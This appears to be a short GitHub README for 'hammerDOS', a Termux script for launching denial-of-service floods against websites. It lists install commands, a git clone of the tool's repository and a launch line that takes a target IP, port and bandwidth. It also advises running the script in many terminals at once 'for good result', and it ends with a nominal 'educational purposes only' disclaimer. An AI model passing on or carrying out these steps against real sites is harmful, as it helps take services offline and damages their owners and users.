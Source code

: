 #hammerDOS 
#TERMUX

Credit to the owner


this tool is for DDOS WEBSIDE....... to make good result,
You should rrun this script in many terminal 

Command 

apt update

apt upgrade

pkg install git

pkg install python python2 python3

git clone https://github.com/Star-Ford/hammerDOS

cd hammerDOS

chmod +x *

python3 hammerDOS.py -s ip -p port - bandwidth




Run this tool in many terminal for good result
For educational purposes only
I am not responsible for any shit
